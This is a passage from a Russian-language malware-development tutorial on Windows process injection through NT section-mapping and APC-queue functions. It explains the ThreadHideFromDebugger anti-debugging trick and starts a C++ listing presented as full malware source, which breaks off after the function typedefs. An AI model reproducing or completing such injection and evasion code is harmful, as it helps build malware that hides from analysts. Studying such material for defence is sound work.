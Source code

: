 Как видно, я заменил логику запуска полезной нагрузки.    

Есть один интересный момент с `ZwSetInformationThread`. Вторым параметром этой функции является структура `THREADINFOCLASS`, которая представляет собой перечисляемый тип. Последний элемент этого перечисления - `ThreadHideFromDebugger`. Установив `ThreadHideFromDebugger` для потока, можно запретить потоку генерировать отладочные события. Это была одна из первых техник защиты от отладки, предоставленных Windows, и она является довольно мощной.    

Полный исходный код вредоносного ПО:

```cpp
/*
 * hack.cpp - code injection via 
 * ZwCreateSection, ZwUnmapViewOfSection, 
 * ZwQueueApcThread
 * @cocomelonc
 * https://cocomelonc.github.io/tutorial/
 2022/01/17/malware-injection-14.html
*/
#include <cstdio>
#include <windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

// ZwCreateSection
typedef NTSTATUS(NTAPI* pZwCreateSection)(
  OUT PHANDLE            SectionHandle,
  IN ULONG               DesiredAccess,
  IN POBJECT_ATTRIBUTES  ObjectAttributes OPTIONAL,
  IN PLARGE_INTEGER      MaximumSize OPTIONAL,
  IN ULONG               PageAttributess,
  IN ULONG               SectionAttributes,
  IN HANDLE              FileHandle OPTIONAL
);

// NtMapViewOfSection syntax
typedef NTSTATUS(NTAPI* pNtMapViewOfSection)(
  HANDLE            SectionHandle,
  HANDLE            ProcessHandle,
  PVOID*            BaseAddress,
  ULONG_PTR         ZeroBits,
  SIZE_T            CommitSize,
  PLARGE_INTEGER    SectionOffset,
  PSIZE_T           ViewSize,
  DWORD             InheritDisposition,
  ULONG             AllocationType,
  ULONG             Win32Protect
);

// ZwUnmapViewOfSection syntax
typedef NTSTATUS(NTAPI* pZwUnmapViewOfSection)(
  HANDLE            ProcessHandle,
  PVOID             BaseAddress
);

// ZwClose
typedef NTSTATUS(NTAPI* pZwClose)(
  _In_ HANDLE       Handle
);

// ZwQueueApcThread
typedef NTSTATUS(NTAPI* pZwQueueApcThread)(
  IN HANDLE               ThreadHandle,
  IN PIO_APC_ROUTINE      ApcRoutine,
```
